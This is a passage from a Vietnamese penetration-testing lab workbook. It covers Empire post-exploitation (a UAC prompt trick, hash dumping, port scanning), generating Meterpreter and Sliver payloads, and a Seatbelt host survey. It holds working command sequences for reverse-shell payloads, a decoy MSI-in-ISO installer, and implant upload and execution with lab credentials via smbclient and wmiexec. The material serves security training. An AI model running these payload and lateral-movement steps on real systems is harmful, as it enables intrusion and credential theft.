 Author       Jack64
 Background   True
 Comments     https://github.com/rapid7/metasploit-
              framework/blob/master/modules/exploits/windows/local/ask.rb
 Description  Leverages Start-Process' -Verb runAs option inside a YES-Required loop
              to prompt the user for a high integrity context before running the
              agent code. UAC will report Powershell is requesting Administrator
              privileges. Because this does not use the BypassUAC DLLs, it should
              not trigger any AV alerts.
 Language     powershell
 Name         powershell/privesc/ask
 NeedsAdmin   False
 OpsecSafe    False
 Techniques   http://attack.mitre.org/techniques/T1088


┌Record Options────┬────────────────────┬──────────┬─────────────────────────────────────┐
│ Name             │ Value              │ Required │ Description                         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Agent            │ agent2             │ True     │ Agent to run module on.             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Bypasses         │ mattifestation etw │ False    │ Bypasses as a space separated list  │
│                  │                    │          │ to be prepended to the launcher.    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Listener         │                    │ True     │ Listener to use.                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Obfuscate        │ False              │ False    │ Switch. Obfuscate the launcher      │
│                  │                    │          │ powershell code, uses the           │
│                  │                    │          │ ObfuscateCommand for obfuscation    │
│                  │                    │          │ types. For powershell only.         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ObfuscateCommand │ Token\All\1        │ False    │ The Invoke-Obfuscation command to   │
│                  │                    │          │ use. Only used if Obfuscate switch  │
│                  │                    │          │ is True. For powershell only.       │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Proxy            │ default            │ False    │ Proxy to use for request (default,  │
│                  │                    │          │ none, or other).                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ProxyCreds       │ default            │ False    │ Proxy credentials                   │
│                  │                    │          │ ([domain\]username:password) to use │
│                  │                    │          │ for request (default, none, or      │
│                  │                    │          │ other).                             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ UserAgent        │ default            │ False    │ User-agent string to use for the    │
│                  │                    │          │ staging request (default, none, or  │
│                  │                    │          │ other).                             │
└──────────────────┴────────────────────┴──────────┴─────────────────────────────────────┘
```

Bây giờ chúng ta cần thông báo cho Empire rằng nếu mô-đun này hoạt động thành công, nó sẽ kết nối lại với trình lắng nghe của chúng ta. Để làm điều này, chúng ta chỉ cần chỉ định tên của trình lắng nghe `http`.

```bash
set Listener http
```



Giờ chúng ta đã sẵn sàng chạy mô-đun rồi!

```bash
execute
```

Thường thì Windows sẽ hiển thị một lời nhắc UAC cho biết nó được đặt trên màn hình bởi Windows PowerShell, với nhà phát hành đã được xác minh là Microsoft Windows. Tất nhiên, chính Empire Agent là phần mềm làm cho điều này xuất hiện, sử dụng PowerShell để làm cho nó trông giống như một hành động hợp pháp trên máy mục tiêu.

Trong trường hợp của chúng tôi, hệ thống Windows của bạn không hiển thị thông báo (do UAC được đặt ở chế độ "Thấp"). Tuyệt vời!

Giờ chúng ta hãy cùng xem xét các đặc vụ của mình.

```bash
agents
```



Hãy chú ý đến dấu sao `*` bên cạnh tên của đặc vụ mới. Dấu sao đó có nghĩa là đây là phiên làm việc được nâng cao, với đầy đủ quyền quản trị. Tài liệu của Empire đôi khi gọi những đặc vụ này là các đặc vụ "có tính toàn vẹn cao", và chúng rất tuyệt vời vì cho phép chúng ta khai thác triệt để hệ thống, bao gồm cả việc lấy được các mã băm từ máy chủ.

Hãy đổi tên phiên làm việc của tác nhân nâng cao mới của chúng ta thành `priv1` và sau đó là `list` các tác nhân.

```bash
rename UG327LDV priv1
list
```



Bây giờ chúng ta hãy tương tác với phiên làm việc có quyền quản trị mới. Hãy chắc chắn rằng bạn đã chạy lệnh `list` ở bước trước, nếu không bạn sẽ không thể tương tác với tác nhân mới bằng tên mới.



Và bây giờ chúng ta có thể thử chạy powerdumplại để lấy các mã băm:



```bash
execute
```



> Lưu ý rằng giờ nó hoạt động vì chúng ta đã vượt qua UAC để có được phiên tác nhân có tính toàn vẹn cao (quyền hạn cao hơn). Và chúng ta đã có được các mã băm từ mục tiêu!

Một lần nữa, Empire tạo ra một tác vụ. Hãy đợi một chút, sau đó xem kết quả tác vụ.

```bash
view 1
```



Tuyệt vời! Chúng ta vừa nhận được mã băm rồi!

Để chạy các lệnh `shell` từ tác nhân của chúng ta, chúng ta thực hiện lệnh `shell` sau, tiếp theo là lệnh mà chúng ta muốn chạy:

```bash
shell ipconfig
```



Hãy cùng xem kết quả bằng cách quan sát đầu ra của tác vụ.



Bạn sẽ thấy kết quả của lệnh `ipconfig` trên màn hình.

Nếu có thời gian, bạn có thể thử nghiệm với các lệnh PowerShell khác, chẳng hạn như `ps`, `pwd`, và `dir`. Ngoài ra, hãy sử dụng một số thủ thuật PowerShell mà bạn đã học trong khóa học này.

### 9. Port Scan

Tiếp theo, chúng ta hãy tiến hành quét cổng từ tác nhân Empire, cho nó quét máy 10.130.10.25. Chúng ta sẽ bắt đầu bằng cách tìm kiếm portscanmô-đun:

```bash
usemodule powershell/situational_awareness/network/portscan
```





Mặc định là quét 50 cổng TCP hàng đầu. Chúng ta sẽ để nguyên như vậy trước mắt. Chúng ta cần phải chỉ định một phạm vi mục tiêu.

Tiếp theo, chúng ta cần chỉ định mục tiêu và chạy mô-đun.

```bash
set Hosts 10.130.10.25
execute
```



Hãy đợi khoảng 30 giây, sau đó xem kết quả thực hiện tác vụ.

```bash
view 3
```



Bạn sẽ thấy rằng các cổng 80, 3389, 445, 129, 135 đang lắng nghe trên máy có địa chỉ IP 10.130.10.10.

### 10. Tắt agent

Để kết thúc buổi thực hành, chúng ta hãy tắt các tác nhân.

```bash
agents
kill all
y
```



Giờ chúng ta kill listener của chúng ta:

```bash
listeners
kill all
```



Và cuối cùng, hãy cùng xem xét `exit` để thoát Empire:

```bash
exit
```



## Phần kết luận

Trong bài thực hành này, chúng ta đã thấy cách các chuyên gia kiểm thử xâm nhập có thể sử dụng Empire để cấu hình và điều khiển các listener và agent. Chúng ta cũng đã chạy một số module khác nhau trên mục tiêu thông qua một agent, bao gồm PowerUp, để tìm các lỗ hổng leo thang đặc quyền cục bộ tiềm ẩn. Chúng ta đã vượt qua UAC bằng cách yêu cầu người dùng chạy một agent có đặc quyền cao trên mục tiêu. Chúng ta đã trích xuất các hash bằng `powerdumpmodule` của Empire, và chúng ta cũng đã thực hiện quét cổng từ một agent trên mục tiêu bị xâm nhập.

Mỗi kỹ thuật này đều vô cùng hữu ích cho các chuyên gia kiểm thử xâm nhập trong giai đoạn hậu khai thác của một dự án kiểm thử xâm nhập hoặc hoạt động của nhóm Red Team.


# Lab 2.5. Payloads

## Mục tiêu

- Hiểu rõ các tùy chọn payloads có sẵn với MSFVenom và Metasploit.

- Thiết lập Metasploit multi/handler để nhận nhiều kết nối.

- Tạo nhiều payload Metasploit/MSFVenom.

- Sử dụng Sliver để tạo payloads và thực thi trên một hệ thống từ xa.

## Chuẩn bị thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

Bạn có thể ping địa chỉ 10.130.10.25 từ máy ảo Slingshot Linux:

```bash
ping -c 4 10.130.10.25
```

a

## Hướng dẫn thực hành từng bước

### 1. Thiết lập Metasploit để nhận kết nối

Đầu tiên, chúng ta cần thiết lập Metasploit để nhận kết nối từ các payload của mình. Khởi chạy Metasploit bằng cách chạy lệnh sau msfconsole:

```bash
msfconsole
```

Trong Metasploit, chúng ta sẽ sử dụng `multi/handler` "exploit" để nhận kết nối. Multi Handler không phải là một exploit, nó chỉ đơn giản là thông báo cho Metasploit rằng chúng ta sẽ khởi chạy payload bên ngoài Metasploit và nó cần sẵn sàng để nhận kết nối. Hãy sử dụng handler này.

```bash
use exploit/multi/handler
```



Hãy lưu ý rằng Metasploit đã chọn payload mặc định là `generic/shell_reverse_tcp`. Đây không phải là payload lý tưởng, vì vậy chúng ta hãy thay đổi nó thành Meterpreter.



Hãy cùng xem xét các tùy chọn mà chúng ta có sẵn với lỗ hổng và mã độc này.

```bash
show options
```



Lưu ý rằng mã khai thác giả của chúng ta không có tùy chọn nào. Đối với payload, chúng ta cần thiết lập cổng và máy chủ. Hãy thay đổi `LHOST` thành `eth0` và `LPORT` thành 3333.

```bash
set LHOST eth0
set LPORT 3333
```



Hãy kiểm tra lại xem các thiết lập đã chính xác chưa bằng cách chạy show optionslại chương trình.

```bash
show options
```



Lưu ý rằng địa chỉ này `eth0` được tự động mở rộng thành địa chỉ IP liên kết với eth0giao diện.

Chúng ta có thể thiết lập trình lắng nghe để nhận nhiều kết nối cùng lúc, nhờ đó không cần phải khởi động lại trình lắng nghe. Chúng ta có thể làm điều đó bằng cách thiết lập `ExitOnSession` thành `false`.

```bash
set ExitOnSession false
```



Hãy khởi chạy trình lắng nghe bằng cách chạy nó như một tác vụ (`-j`) và không tương tác với các kết nối mới (`-z`).



> Lưu ý: Địa chỉ IP của bạn sẽ khác.

Bạn có thể nhấn Enter để quay lại giao diện Metasploit thông thường.

Metasploit đã được thiết lập để nhận kết nối của bạn. Bây giờ, hãy tạo payload.

### 2. Các Payload của Metasploit với MSFVenom

Mở một cửa sổ terminal mới cho bước này. Chúng ta cần giữ cho Metasploit hoạt động.

Chúng ta sẽ sử dụng nó `msfvenom` để tạo ra một vài payload (tệp tin độc hại) sẽ được thực thi trên máy ảo Windows 10 cục bộ của bạn.

Trước tiên, hãy cùng xem xét các loại dữ liệu có sẵn trong công cụ này.

Trước tiên, hãy cùng xem xét các định dạng đầu ra của dữ liệu payloads.



Chúng ta không thể tạo một kịch bản VBA để sử dụng trong macro, vì máy ảo Windows 10 không cài đặt sẵn Office. Chúng ta có thể sử dụng một kịch bản VB, rất tương tự, và chạy nó thủ công để mô phỏng macro.

Thông thường, chúng ta sẽ tạo một macro VBA để đưa vào tài liệu Office và sử dụng nó cho mục đích tấn công phi kỹ thuật; tuy nhiên, máy ảo Windows 10 của chúng ta không cài đặt Office. Thay vì macro, chúng ta hãy tạo một tập lệnh VB mà chúng ta sẽ sử dụng để mô phỏng macro và khởi chạy phần mềm độc hại.



Chúng ta có thể lưu trực tiếp kết quả vào một tệp bằng tùy chọn `--save` `-o` hoặc `--save` `--out`, nhưng với tùy chọn `tee--save`, chúng ta có thể xem nội dung của tệp khi nó được ghi. Lưu ý rằng tên biến và hàm của bạn khác với những gì được hiển thị ở trên. Metasploit ngẫu nhiên hóa tên để làm cho việc nhận dạng khó khăn hơn.

Hãy sao chép tập tin này sang Windows.

### 3. Sao chép mã VBS vào Windows và thực thi nó.

**Hãy mở một cửa sổ dòng lệnh mới cho bước này.**

Hãy chuyển đến `/tmp` thư mục đó và chạy một máy chủ web Python để phục vụ tập tin có thể truy cập được từ Windows.

```bash
cd /tmp
python3 -m http.server
```



Chuyển sang hệ điều hành Windows và mở cửa sổ PowerShell. Sau đó chạy lệnh sau.

```bash
wget http://10.130.10.128:8000/payload.vbs -OutFile payload.vbs
```

Hãy giải phóng bằng lệnh cscript.

```bash
cscript payload.vbs
```



Chuyển sang giao diện dòng lệnh Metasploit trên máy ảo Slingshot của bạn. Bạn sẽ thấy một phiên làm việc mới.



Giờ đây bạn đã có một phiên Meterpreter đang chạy trên máy chủ Windows của mình bằng cách sử dụng payloads VBS. Trước tiên, chúng ta cần tương tác với phiên này. Trong ví dụ này, ID phiên là 1. ID phiên của bạn có thể khác. Hãy sử dụng số bạn thấy thay vì 1nếu ID phiên của bạn khác.

```bash
sessions -i 1
```



Chạy `sysinfo` để nắm được thông tin cơ bản về phiên họp.

```bash
sysinfo
```



Tiếp theo chúng ta sẽ sử dụng một payload khác, vậy nên hãy kết thúc `exit` phiên này.

```bash
exit
```



### 4. Tạo gói tin MSI trong tệp ISO

Hãy chuyển sang cửa sổ dòng lệnh nơi bạn vừa chạy lệnh đó `msfvenom`. Chúng ta hãy tạo một tệp cài đặt MSI. Các tệp này đôi khi vẫn được phép thực thi ngay cả khi các loại tệp khác bị vô hiệu hóa.

```bash
msfvenom -p windows/meterpreter/reverse_http lhost=eth0 lport=3333 -f msi -o /tmp/setup.msi
```



Để tạo tệp ISO, chúng ta sẽ sử dụng công cụ `genisoimage` này. Chúng ta có thể chỉ định một thư mục hoặc một hoặc nhiều tệp. Chúng ta chỉ cần sử dụng tệp msi trong tệp ISO.

```bash
genisoimage -o /tmp/installer.iso /tmp/setup.msi
```



Hãy chuyển sang Windows, tải xuống và mở tập tin.

### 5. Tải xuống và mở các tệp ISO và MSI

Trong cửa sổ PowerShell, chuyển đến thư mục Desktop của bạn rồi tải xuống tệp ISO.

```bash
wget http://10.130.10.128:8000/installer.iso -OutFile installer.iso
```

Trên màn hình máy tính của bạn giờ sẽ thấy `installer.iso`. Nhấp đúp vào tệp để gắn kết nó. Sau đó, nhấp đúp vào tệp `SETUP.MSI` để chạy nó.



Bạn sẽ thấy trình cài đặt chạy, nhưng sau đó nó hiển thị thông báo lỗi.



Thông báo lỗi này là bình thường. Nó được sử dụng để đánh lừa người dùng rằng không có gì xảy ra. Tuy nhiên, nếu bạn chuyển sang Metasploit, bạn sẽ thấy một phiên Meterpreter mới vừa được khởi tạo.



Giờ đây bạn đã có một phiên Meterpreter đang chạy trên máy chủ Windows của mình bằng cách sử dụng tệp ISO và MSI. Trước tiên, chúng ta cần tương tác với phiên này. Trong ví dụ này, ID phiên là `2`. ID phiên của bạn có thể khác. Hãy sử dụng số bạn thấy thay vì `2` nếu trường hợp của bạn khác.

```bash
sessions -i 2
```



Một lần nữa, hãy chạy `sysinfo` để nắm bắt thông tin cơ bản về phiên này.

```bash
sysinfo
```



Tiếp theo chúng ta sẽ sử dụng Sliver. Vì vậy, hãy thoát khỏi Meterpreter và Metasploit.

```bash
exit
exit
```



### 6. Sliver và Payload

Khởi chạy máy chủ Sliver.

Thiết lập trình lắng nghe trên cổng `443` bằng cách chạy lệnh `https` để khởi động trình lắng nghe.

```bash
https
```



Hãy cùng xem xét các tùy chọn với `generate`.

```bash
generate -h
```


```bash
[server] sliver > generate -h

Command: generate <options>
About: Generate a new sliver binary and saves the output to the cwd or a path specified with --save.

++ Command and Control ++
You must specificy at least one c2 endpoint when generating an implant, this can be one or more of --mtls, --wg, --http, or --dns, --named-pipe, or --tcp-pivot.
The command requires at least one use of --mtls, --wg, --http, or --dns, --named-pipe, or --tcp-pivot.

The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using mutual-TLS:
        generate --mtls foo.example.com

The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using Wireguard on UDP port 9090,
then connect to TCP port 1337 on the server's virtual tunnel interface to retrieve new wireguard keys, re-establish the wireguard connection using the new keys,
then connect to TCP port 8888 on the server's virtual tunnel interface to establish c2 comms.
        generate --wg 3.3.3.3:9090 --key-exchange 1337 --tcp-comms 8888

You can also stack the C2 configuration with multiple protocols:
        generate --os linux --mtls example.com,domain.com --http bar1.evil.com,bar2.attacker.com --dns baz.bishopfox.com


++ Formats ++
Supported output formats are Windows PE, Windows DLL, Windows Shellcode, Mach-O, and ELF. The output format is controlled
with the --os and --format flags.

To output a 64bit Windows PE file (defaults to WinPE/64bit), either of the following command would be used:
        generate --mtls foo.example.com
        generate --os windows --arch 64bit --mtls foo.example.com

A Windows DLL can be generated with the following command:
        generate --format shared --mtls foo.example.com

To output a MacOS Mach-O executable file, the following command would be used
        generate --os mac --mtls foo.example.com

To output a Linux ELF executable file, the following command would be used:
        generate --os linux --mtls foo.example.com


++ DNS Canaries ++
DNS canaries are unique per-binary domains that are deliberately NOT obfuscated during the compilation process.
This is done so that these unique domains show up if someone runs 'strings' on the binary, if they then attempt
to probe the endpoint or otherwise resolve the domain you'll be alerted that your implant has been discovered,
and which implant file was discovered along with any affected sessions.

Important: You must have a DNS listener/server running to detect the DNS queries (see the "dns" command).

Unique canary subdomains are automatically generated and inserted using the --canary flag. You can view previously generated
canaries and their status using the "canaries" command:
        generate --mtls foo.example.com --canary 1.foobar.com

++ Execution Limits ++
Execution limits can be used to restrict the execution of a Sliver implant to machines with specific configurations.

++ Profiles ++
Due to the large number of options and C2s this can be a lot of typing. If you'd like to have a reusable a Sliver config
see 'help profiles new'. All "generate" flags can be saved into a profile, you can view existing profiles with the "profiles"
command.


Usage:
======
  generate [flags]

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -d, --debug                        enable debug features
  -O, --debug-file         string    path to debug output
  -G, --disable-sgn                  disable shikata ga nai shellcode encoder
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features (e.g. overwrite user space hooks)
  -E, --external-builder             use an external builder
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -b, --http               string    http(s) connection strings
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -m, --mtls               string    mtls connection strings
  -N, --name               string    agent name
  -p, --named-pipe         string    named-pipe connection strings
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -s, --save               string    directory/file to the binary to
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -I, --template           string    implant code template (default: sliver)
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings

Sub Commands:
=============
  beacon  Generate a beacon binary
  info    Get information about the server's compiler
  stager  Generate a stager using Metasploit (requires local Metasploit installation)

[server] sliver >
```

Ta thấy dòng sau:



Hãy xem `++ Formats ++` phần đó. Lưu ý rằng chúng ta không có nhiều tùy chọn đầu ra như với Metasploit. Khi sử dụng Sliver, bạn thường cần một công cụ hoặc phương pháp khác để tải shellcode.

Hãy tạo một tập tin exe mà chúng ta sẽ chạy trên một trong các máy chủ trong phạm vi mục tiêu. Chúng ta sẽ sử dụng tùy chọn `--skip-symbols` này để tăng tốc quá trình tạo payload, nếu không quá trình này có thể mất một phút hoặc hơn do việc né tránh và mã hóa bổ sung được sử dụng trong tập tin thực thi. Trong thực tế, bạn có thể KHÔNG muốn sử dụng tùy chọn này.

```bash
generate --os windows --arch 64bit --format shared --skip-symbols --http https://10.130.10.128
```



> LƯU Ý: Tên dữ liệu payloads của bạn sẽ được tạo ngẫu nhiên và sẽ khác với tên OUTRAGEOUS_OTT.dll bạn thấy ở đây.

### 7. Sao chép và thực thi DLL

**Hãy mở một cửa sổ dòng lệnh mới cho bước này.**

Tệp được tạo thuộc sở hữu của người dùng `root` và người dùng `sec560` của chúng ta không thể truy cập được. Hãy xác nhận điều này bằng cách sử dụng lệnh `ls -l`.

```bash
ls -l *.dll
```



Lưu ý rằng quyền `rwx` (Đọc, Ghi, Thực thi) chỉ áp dụng cho chủ sở hữu của tệp root. Hãy thay đổi quyền truy cập của tệp để chúng ta có thể tương tác với tệp như một người dùng thông thường.

```bash
sudo chown sec560:sec560 *.dll
ls -l *.dll
```



Giờ bạn sẽ thấy chủ sở hữu của tập tin là `sec560`.

Chúng ta sẽ sử dụng hai công cụ từ khung `Impacket`. Chúng ta sẽ thảo luận chi tiết hơn về các công cụ này trong mục 560.4, nhưng trước tiên chúng ta cần sử dụng chúng.

Đầu tiên, chúng ta sẽ sao chép tập tin `smbclient.py` lên máy chủ. Chúng ta sẽ sử dụng lệnh `c$` chia sẻ và sau đó tải lên (`put`) tập tin.

> Chú ý mở máy DC Hiboxy 10.130.10.10 lên trước khi sử dụng các câu lệnh bên dưới.

```bash
smbclient.py hiboxy/bgreen:Password1@10.130.10.25
use c$
put OUTRAGEOUS_OTT.dll
ls
exit
```

> LƯU Ý: Thay thế PAYLOAD_NAME bằng tên tệp do Sliver tạo ra.



```bash
sec560@slingshot:~$ smbclient.py hiboxy/bgreen:Password1@10.130.10.25
Impacket v0.10.1.dev1+20220907.172745.1fe2bbb3 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# use c$
# put OUTRAGEOUS_OTT.dll
# ls
drw-rw-rw-          0  Wed Mar 20 00:00:17 2024 $Recycle.Bin
drw-rw-rw-          0  Fri Oct 28 22:19:29 2022 $WinREAgent
-rw-rw-rw-          0  Sat Apr  3 07:10:12 2021 $WINRE_BACKUP_PARTITION.MARKER
drw-rw-rw-          0  Fri Oct 28 22:45:18 2022 Boot
-rw-rw-rw-     413738  Fri Oct 28 22:45:18 2022 bootmgr
-rw-rw-rw-          1  Fri Oct 28 22:45:18 2022 BOOTNXT
-rw-rw-rw-       8192  Fri Oct 28 22:45:19 2022 BOOTSECT.BAK
drw-rw-rw-          0  Mon Feb 14 01:36:38 2022 CourseFiles
drw-rw-rw-          0  Fri Dec 16 13:37:08 2016 Documents and Settings
-rw-rw-rw-       8192  Wed Apr  1 13:02:59 2026 DumpStack.log.tmp
drw-rw-rw-          0  Mon Feb 14 04:51:11 2022 EFSTMPWP
drw-rw-rw-          0  Sat Oct 29 06:57:23 2022 inetpub
-rw-rw-rw-   10946048  Wed Apr  1 14:26:18 2026 OUTRAGEOUS_OTT.dll
-rw-rw-rw- 1744830464  Wed Apr  1 13:02:59 2026 pagefile.sys
drw-rw-rw-          0  Sat Oct 29 06:57:22 2022 PerfLogs
drw-rw-rw-          0  Sat Oct 29 06:57:23 2022 Program Files
drw-rw-rw-          0  Sat Oct 29 06:57:23 2022 Program Files (x86)
drw-rw-rw-          0  Tue Mar 19 23:36:59 2024 ProgramData
drw-rw-rw-          0  Fri Jan  7 03:38:42 2022 Python27
drw-rw-rw-          0  Fri Oct 28 22:57:55 2022 Recovery
-rw-rw-rw-   16777216  Wed Apr  1 13:02:59 2026 swapfile.sys
drw-rw-rw-          0  Mon Apr  1 00:34:37 2019 System Volume Information
drw-rw-rw-          0  Sat Jun 22 22:52:17 2019 Temp
drw-rw-rw-          0  Wed Feb  8 04:26:51 2023 Tools
drw-rw-rw-          0  Tue Mar 19 23:59:51 2024 Users
drw-rw-rw-          0  Wed Mar 20 00:17:41 2024 Windows
```

Bạn sẽ thấy tệp DLL của mình ở thư mục gốc của ổ đĩa trên máy chủ từ xa.

Hãy sử dụng một công cụ Impacket khác để thực thi payload `wmiexec.py`.

```bash
wmiexec.py hiboxy/bgreen:Password1@10.130.10.25
  regsvr32 OUTRAGEOUS_OTT.dll
```



Bạn sẽ thấy phiên làm việc được gửi từ máy chủ đến Sliver.



ID phiên ở đây là `3e468f91`, nhưng ID của bạn sẽ khác. Bạn chỉ cần sử dụng ký tự đầu tiên miễn là nó duy nhất trong tất cả các phiên của bạn. Chúng tôi sẽ sử dụng hai ký tự đầu tiên để giảm khả năng trùng lặp ký tự đầu tiên.

```bash
use 3e
```



Hãy chạy info để lấy thông tin về `sesssion`. Thông tin của bạn sẽ khác với thông tin hiển thị ở đây.



Để dọn dẹp, hãy thoát khỏi phiên làm việc và sử dụng Sliver.

```bash
exit
```

Trong ví dụ này, chúng ta đã sử dụng tệp `DLL`. Chúng ta cũng hoàn toàn có thể tạo tệp `EXE` và thực thi trực tiếp thay vì sử dụng `regsvrDLL`.

## Phần kết luận

Chúng tôi đã tạo ra một số payload khác nhau bằng Metasploit và Sliver. Như đã nói, Metasploit và MSFVenom cung cấp nhiều tùy chọn payload. Các framework C2 khác, chẳng hạn như Sliver, có bộ tùy chọn hạn chế hơn và yêu cầu người dùng tự tạo payload, thường là bằng shellcode từ framework C2.

# Lab 2.6. Seatbelt

## Tổng quan

Chúng ta sẽ sử dụng Seatbelt để hiểu rõ hơn về cấu hình hệ thống Windows 10 của mình.

Chúng tôi sẽ sử dụng máy ảo Windows 10.

## Thiết lập phòng thí nghiệm

Máy ảo được sử dụng:

- Windows 10.

Bạn có thể ping địa chỉ 10.130.10.10 từ máy ảo Windows 10:

```bash
ping 10.130.10.10
```



## Hướng dẫn thực hành từng bước

### 1. Khởi động Seatbelt.

Theo trang web của dự án:

> Seatbelt là một dự án C# thực hiện một số "kiểm tra an toàn" khảo sát máy chủ hướng đến bảo mật, có liên quan đến cả khía cạnh tấn công và phòng thủ.

Mở cửa sổ dòng lệnh CMD, sau đó di chuyển đến thư mục `C:\Tool` tương sứng. Lưu ý, nếu bạn sử dụng PowerShell thay vì CMD, cú pháp của các lệnh sẽ thay đổi, vì vậy vui lòng sử dụng CMD.

```bash
cd \Tools
Seatbelt.exe
```

Khi chạy Seatbelt, nó sẽ hiển thị hình ảnh dây an toàn bằng ký tự ASCII trên màn hình và cung cấp kết quả. Để tiết kiệm không gian màn hình (và vì nó sẽ không hiển thị tốt ở đây), chúng ta sẽ tắt hình ảnh bằng lệnh `-q` (quiet).



### 2. Kiểm tra đơn lẻ

Chúng ta có thể chạy các kiểm tra riêng lẻ bằng cách sử dụng tên của lệnh cụ thể. Hãy chạy lệnh Seatbelt để lấy thông tin về phần mềm diệt virus hiện tại của chúng ta.

```bash
Seatbelt.exe -q AntiVirus
```



Hãy cùng xem những gì đã được cài đặt trên hệ thống của chúng ta. Trong một bài kiểm thử xâm nhập thực tế, phần mềm trên một hệ thống có thể tương tự như trên các hệ thống khác. Chúng ta có thể sử dụng các lỗ hổng trong phần mềm đó để chuyển hướng tấn công giữa các hệ thống.

```bash
Seatbelt.exe -q InstalledProducts
```



Bạn còn nhớ Icecast từ bài thực hành 2.2 chứ?

Một số chức năng trong Seatbelt thực hiện các thao tác rất giống với các lệnh tích hợp sẵn. Lợi ích là chúng ta có thể tải tập tin .NET (exe) này vào bộ nhớ trên hệ thống mục tiêu và truy vấn các thông tin như Netstat, nhưng không cần sử dụng `cmd`, `PowerShell` hoặc các tệp thực thi `netstat`, vốn có thể bị giám sát quyền truy cập.

Chúng ta hãy cùng xem xét một hàm như vậy, `TcpConnections`.

```bash
Seatbelt.exe -q TcpConnections
```



### 3. Groups

Thay vì chạy từng lệnh riêng lẻ, chúng ta có thể chạy các nhóm lệnh. Các nhóm lệnh hiện được Seatbelt hỗ trợ bao gồm:

- `All` - tất cả các lệnh.

- `User` - người dùng hiện tại hoặc tất cả người dùng nếu đang đăng nhập với quyền quản trị.

- `System` - khai thác dữ liệu thú vị về hệ thống mục tiêu.

- `Slack` - các mô-đun được thiết kế để trích xuất thông tin về Slack (đã cài đặt chưa, số lượt tải xuống và không gian làm việc).

- `Chrome` -  trích xuất thông tin liên quan đến trình duyệt Chrome (đã cài đặt chưa, dấu trang, lịch sử).

- `Remote` - các thao tác kiểm tra hoạt động trên hệ thống từ xa (rất hữu ích trước và trong quá trình di chuyển ngang)

- `Misc` - các khoản kiểm tra linh tinh.

Hãy cùng xem xét hệ thống của chúng ta và phân tích kết quả của nhóm Hệ thống.

```bash
Seatbelt.exe -q -group=system
```



Nhóm này thực thi gần 50 lệnh khác nhau, bao gồm:

```bash
AMSIProviders
AntiVirus
AppLocker
ARPTable
AuditPolicies
AuditSettings
AutoRuns
CredGuard
DNSCache
DotNet
EnvironmentPath
EnvironmentVariables
InterestingProcesses
InternetSettings
LAPS
LastShutdown
LocalGPOs
LocalGroups
LocalUsers
LogonSessions
LSASettings
NamedPipes
NetworkProfiles
NetworkShares
NTLMSettings
OSInfo
PoweredOnEvents
PowerShell
Processes
PSSessionSettings
RDPSessions
SCCM
Services
Sysmon
TcpConnections
TokenPrivileges
UAC
UdpConnections
UserRightAssignments
WindowsAutoLogon
WindowsDefender
WindowsEventForwarding
WindowsFirewall
WMIEventConsumer
WMIEventFilter
WMIFilterBinding
WSUS
```

Đây là một cách nhanh chóng để thu thập nhiều dữ liệu về hệ thống mục tiêu để phân tích ngoại tuyến. Chúng ta hãy cùng xem xét nhanh một vài lệnh thú vị và cách chúng có thể hữu ích.

- `AutoRuns` - Có thể các tệp thực thi hoặc cấu hình của chúng có thể được sửa đổi để duy trì hoạt động hoặc leo thang đặc quyền.

- `InterestingProcesses` - Hữu ích để hiểu các công cụ phòng thủ và quản trị được cài đặt trên hệ thống.

- `LocalGroups and LocalUsers` - Chúng có thể được sử dụng để leo thang quyền hạn hoặc duy trì quyền truy cập.

- `LogonSessions` - Đây là danh sách những người dùng hiện đang đăng nhập. Chúng ta có thể sử dụng quyền truy cập của họ để di chuyển ngang hoặc leo thang đặc quyền.

- `NetworkShares` - Hệ thống của chúng ta có đang chia sẻ thông tin hữu ích mà người khác có thể muốn/cần không? Chúng ta có thể thêm hoặc thay thế các tập tin để truy cập vào người dùng hoặc máy tính khác không?

- `PowerShell` - Lệnh này cho phép chúng ta biết liệu các công nghệ phòng vệ cho PowerShell có được bật hay không. Nếu chúng không được bật, chúng ta có thể sử dụng các công cụ PowerShell. Nếu các biện pháp phòng vệ được bật, thì tốt nhất nên tránh sử dụng PowerShell để không gây ra cảnh báo.

### 4. Remote Usage

Giờ thì mọi thứ trở nên thú vị hơn nhiều! Chúng ta có thể sử dụng công cụ này để tìm hiểu về mục tiêu trước khi cố gắng khai thác nó hoặc di chuyển ngang sang mục tiêu. Windows sẽ tự động truyền mã thông báo người dùng hiện tại của chúng ta, hoặc chúng ta có thể chỉ định tên người dùng và mật khẩu bằng cách sử dụng `-username` và `-password`.

